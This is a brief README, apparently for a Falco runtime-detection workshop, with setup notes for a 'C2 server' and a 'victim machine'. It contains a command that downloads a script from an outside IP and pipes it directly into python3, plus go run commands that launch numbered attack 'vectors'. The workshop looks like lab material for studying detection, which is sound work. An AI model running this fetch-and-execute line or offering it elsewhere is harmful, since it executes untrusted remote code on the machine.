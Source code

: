 # README


Remember: 

    Adjust de go versions.

    go version

    Validate the project versions

    go list -m -versions github.com/diego-all/falco-workshop


In C2 Server execute:


    cd /root

    python3 -m http.server 80



In victim machine execute:


    curl -sL http://34.27.180.215/sitio/vuelta.txt | python3


    go run github.com/diego-all/falco-workshop@latest init --vector A
    go run main.go init --vector A

    go run github.com/diego-all/falco-workshop@v0.1.1 init --vector A

    go run github.com/diego-all/falco-workshop@latest init --interactive
    go run main.go init --interactive
    


